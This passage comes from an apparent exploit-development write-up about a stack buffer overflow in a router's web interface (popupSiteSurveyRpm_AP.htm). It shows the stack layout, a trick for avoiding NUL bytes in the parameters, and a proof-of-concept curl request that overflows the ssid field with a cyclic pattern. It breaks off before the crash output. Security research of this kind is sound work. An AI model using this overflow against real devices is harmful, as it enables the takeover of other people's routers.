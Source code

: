 The buffer named here ``local_buffer`` has size 68 and 
contains the value for the parameters that will be printed;
the organization in memory is the following

```
0x00  |             |
      | ssid        |
      |             |
0x24  | curRegion   |
0x28  | channel     |
0x2c  | chanWidth   |
0x30  | mode        |
0x34  | wrr         |
0x38  | sb          |
0x3c  | select      |
0x40  | rate        |
 ...
0x??  | return addr |
```

this complicates a little the exploiting since these parameters
can set some ``NUL`` bytes along the way, but don't worry, the way
in which they are handled allows me to specify values that do not
set bytes, for example

```c
    value = httpGetEnv(req,"mode");
    if (value == (dword *)0x0) {
      local_buffer._48_4_ = 1;
    }
    else {
      local_e1c = atoi((char *)value);
      if (local_e1c - 1 < 8) {
        local_buffer._48_4_ = local_e1c;
      }
    }
```

if is not set ``mode`` then the value ``0x00000001`` is placed in the stack
    (and this is a problem since contains ``NUL`` bytes); any value less than 8
    is used as value but obviously, for the same reason, I don't want that. The
    bypass is simply to use a bigger value to avoid anything to be written in
    the stack, for example ``mode=1000``.

Now I have all the pieces in place and I can try a simple proof of concept.

## PoC

If I do a simple ``GET`` request with a payload big enough

```
$ curl \
	-H 'Cookie: Authorization='$BASE \
	'http://localhost:8080/'$ROOT'/userRpm/popupSiteSurveyRpm_AP.htm?\
	mode=1000&curRegion=1000&chanWidth=100&channel=1000&\
ssid='$(python -c 'print( "/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')
```
I obtain the following crash:
